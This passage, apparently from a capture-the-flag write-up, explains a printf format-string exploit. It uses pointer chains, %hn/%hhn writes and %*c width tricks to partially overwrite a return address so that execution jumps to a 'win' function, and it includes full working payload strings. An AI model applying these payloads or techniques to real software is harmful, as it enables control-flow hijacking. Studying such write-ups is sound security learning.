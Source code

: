 Nonetheless, we still have a problem. We can't print multiple pointers with `%*c` without hitting the overflow. But hope is not yet lost. We have another trick up our sleeves.

#### Pointer chains yet again
Even though we can't print the whole stack pointer (actually, `%*c` takes a 32-bit integer as the width, so it's really only the lower 32 bits) 15 more times, all we really care about is the least significant byte. So, one thing we can do is to copy the byte to the stack, write it using `%hhn`, then print *that* with `%*c` 15 times. That way, we are only printing a small number of bytes each time, avoiding the character limit at which `printf` will exit.

Remember how we noted down multiple pointer chains earlier, even though we only used one? We can now use the one pointer chain we have left - index 56 points to index 73. We can write to index 56 to change the pointer at index 73 to a stack address close to the return address using another `%hn` specifier, so that its position has a small index and is more reliable. Because the `done` variable (`%n` counter) already is set up as the last two bytes of the return address location, all we need to do is use `%c` with a width specifier to increment the counter until we reach an area in memory where we want to store our byte to repeat. This can be anywhere, really, as long as the value stored in that area is initially zeroed out.

Then, we can use `%hhn` on index 73 to write a single byte out. It doesn't really matter that we have printed out other characters with `%c` as we move the argument pointer to index 73, because we just want this byte to be a constant offset relative to the changing stack address. We don't really care that it isn't *exactly* equal to the stack address, because if we multiply by 16, the end result will still be that the last byte is *stable*, while not neccesarily being zero. So, we just write out whatever byte the counter happens to be on.

We can write our format string exploit:

```
%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%64949c%*c%c%c%hn%c%c%c%c%c%c%c%545c%hn%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%hhn
```

This writes the stack-address-aligned byte to index 74, which seems to be zeroed out always. Initially I picked some other index, but 74 works the best for reasons that we will explore later.

We can now print our 15 times, write a few more bytes to move the `%n` counter to 9 mod 256 (we can now just print a constant number of bytes as we have stabilized the last byte), and write our byte to partial overwrite the return address to `win`!

```
%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%64949c%*c%c%c%hn%c%c%c%c%c%c%c%545c%hn%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%hhn%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%8c%75$hhn
```

This format string will produce a stable exploit that calls `win` about 40% of the time!

Except for one thing.

```
>>> len("%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%64949c%*c%c%c%hn%c%c%c%c%c%c%c%545c%hn%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%hhn%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%*74$c%8c%75$hhn")
257
```

